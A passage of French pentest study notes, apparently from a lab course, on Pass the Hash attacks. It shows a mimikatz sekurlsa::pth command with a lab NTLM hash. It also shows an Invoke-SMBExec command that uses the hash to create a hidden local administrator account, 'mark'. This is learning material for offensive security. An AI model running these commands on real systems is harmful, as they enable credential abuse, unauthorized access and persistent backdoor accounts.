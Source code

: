 * **/user** : Le nom d'utilisateur que nous voulons usurper.
* **/rc4 ou /NTLM** : Le hachage NTLM du mot de passe de l'utilisateur.
* **/domain** : Le domaine auquel appartient l'utilisateur que nous voulons usurper. Dans le cas d’un compte utilisateur local, nous pouvons utiliser le nom de l'ordinateur, `localhost` ou un point (`.`).
* **/run** : Le programme que nous souhaitons exécuter dans le contexte de l'utilisateur (si aucun programme n’est spécifié, _cmd.exe_ sera lancé par défaut).

{% code overflow="wrap" fullWidth="true" %}
```cmd-session
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit

```
{% endcode %}

***

### <mark style="color:blue;">Pass the Hash with PowerShell Invoke-TheHash (Windows)</mark>

<mark style="color:orange;">**Invoke-TheHash**</mark> est un outil basé sur PowerShell qui permet d'effectuer des attaques "Pass the Hash" en utilisant les protocoles **WMI** et **SMB**. Il utilise un hachage NTLM pour s'authentifier via le protocole d'authentification NTLMv2.

#### **Points clés :**

* Tu n'as pas besoin de privilèges administrateur sur la machine attaquante, mais le compte (utilisateur et hachage) doit avoir des droits d’administrateur sur la machine cible.
* Deux options disponibles :
  * Exécution de commandes via **SMB**.
  * Exécution de commandes via **WMI**.

#### **Paramètres nécessaires :**

1. **Target** : Nom de l'hôte ou adresse IP de la cible.
2. **Username** : Nom d'utilisateur pour l'authentification.
3. **Domain** : Domaine pour l'authentification (facultatif si le compte est local).
4. **Hash** : Hachage NTLM (format NTLM seul ou LM:NTLM).
5. **Command** : Commande à exécuter sur la cible (facultatif, sinon il vérifie les droits d'accès WMI).

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS c:\htb> cd C:\tools\Invoke-TheHash\
--
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
--
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

```
{% endcode %}
